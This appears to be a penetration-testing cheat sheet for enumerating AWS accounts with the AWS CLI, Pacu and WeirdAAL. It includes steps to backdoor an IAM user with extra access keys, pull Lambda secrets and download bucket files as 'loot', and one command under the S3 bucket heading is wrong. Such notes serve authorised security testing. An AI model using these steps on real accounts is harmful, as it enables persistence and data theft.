 # Authenticated enumeration
- AWS Command Line https://aws.amazon.com/cli/

## Authentication
- use ```--profile=<NAME>``` to use a specific profile for executing the commands
 
#### Set AWS programmatic keys for authentication 
- use ```--profile=<name>``` for a new profile
```
aws configure
```

## Manual enumeration
#### Get basis account info
```
aws sts get-caller-identity
```

#### List EC2 instances
```
aws ec2 describe-instances --region <region>
```

#### List IAM users
```
aws iam list-users
```

#### List IAM roles
```
aws iam list-roles
```

### S3 buckets
#### List s3 buckets
```
aws iam list-roles
```

#### List the contents of an S3 bucket
```
aws s3 ls s3://<bucketname>/ 
```

#### Download contents of bucket
```
aws s3 sync s3://bucketname s3-files-dir
```

#### List EC2 instances
```
aws ec2 describe-instances
```

#### List WebApps
```
aws deploy list-applications
```

#### List AWS RDS (SQL)
```
aws rds describe-db-instances --region <region name>
```

Knowing the VPC Security Group ID you can query the firewall rules to determine connectivity potential

```
aws ec2 describe-security-groups --group-ids <VPC Security Group ID> --region <region>
```

### Serverless
#### List Lambda Functions
```
aws lambda list-functions --region <region>
```

#### Look at environment variables set for secrets and analyze code
```
aws lambda get-function --function-name <lambda function>
```

### Networking
#### List EC2 subnets
```
aws ec2 describe-subnets
```

#### List ec2 network interfaces
```
aws ec2 describe-network-interfaces
```

#### List DirectConnect (VPN) connections
```
aws directconnect describe-connections
```

#### List access keys for a user
```
aws iam list-access-keys --user-name <username>
```

#### Backdoor account with second set of access keys
```
aws iam create-access-key --user-name <username>
```

## PACU
#### Enumerate account information and permissions
```
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
whoami
```

## WeirdAAL
#### Setup authentication with keys
```
cp env.sample .env
nano .env

#Add the following contents:
[default]
aws_access_key_id = <Access-key>
aws_secret_access_key = <Secret-access-key>
aws_session_token = <Session-Token>
````

#### Run recon_all module
```
python3 weirdAAL.py -m recon_all -t ssrf
```

#### List permissions
```
python3 weirdAAL.py -m list_services_by_key -t ssrf
```

#### List S3 buckets
```
python3 weirdAAL.py -m s3_get_bucket_policy -a <s3 bucket> -t ssrf
```

#### Download file from s3 bucket
```
python3 weirdAAL.py -m s3_download_file -a ‘<s3 bucket','admin-user.txt' -t ssrf
cat loot/<s3 bucket name>/admin-user.txt
```
